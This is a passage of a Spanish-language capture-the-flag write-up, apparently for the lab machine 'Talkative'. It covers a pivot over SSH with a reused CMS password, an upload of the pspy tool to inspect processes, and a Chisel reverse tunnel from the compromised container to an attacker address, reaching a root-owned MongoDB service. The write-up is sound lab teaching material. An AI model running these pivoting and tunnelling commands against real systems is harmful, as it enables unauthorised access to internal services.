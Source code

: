 

Ya que conocemos como funciona el rango de direcciones IP asignadas para Docker, nos damos cuenta que la porción de host que nos asignaron es la número 16, por ende, debería de haber un servicio disponible en los hosts restantes.


Así que nos conectaremos mediante SSH con el usuario Saul y la IP con la porción de host principal en la misma máquina donde somos www-data:

![1](https://nik0sec.github.io/assets/img/sample/Talkative/25.png)


Utilizamos la misma contraseña con la que ingresamos al CMS Bolt.


Una vez dentro buscaremos vectores para escalar privilegios, ahora usaremos una herramienta llamada [**pspy**](https://github.com/DominicBreuker/pspy) que permite ver procesos del sistema sin la necesidad de tener permisos administrativos.


Nos vamos al directorio /tmp y subimos nuestra herramienta, ahora si podemos utilizar wget:

![1](https://nik0sec.github.io/assets/img/sample/Talkative/26.png)


Una vez ejecutado, nos damos cuenta de un servicio que se ejecuta con el UID=0 y corresponde a MongoDB:


![1](https://nik0sec.github.io/assets/img/sample/Talkative/27.png)


Ahora podemos ejecutar el siguiente comando para ver todas las conexiones TCP que se efectúan en el sistema (En su máquina local, pueden hacer un "man netstat" para ver todos los comandos y sus respectivas descripciones):


```terminal
netstat -nat
```

Ahora si buscamos el puerto por defecto de MongoDB, corresponde al 27017 así que podemos ver que está en la 172.17.0.2 en la máquina:

![1](https://nik0sec.github.io/assets/img/sample/Talkative/28.png)

Ahora necesitamos conectarnos a ese servicio pero primero debemos tunelizarlo, ya que, estamos dentro de un contenedor y no podremos acceder "desde afuera" así que utilizaremos Chisel para crear este túnel entre MongoDB y nuestra máquina local.



Transferimos Chisel a la máquina víctima y ejecutamos el siguiente comando:

```terminal
./chisel client 10.10.14.12:1414 R:27017:172.17.0.2:27017 
```

Luego en nuestra máquina local:

```terminal
chisel server --reverse --port 1414
```
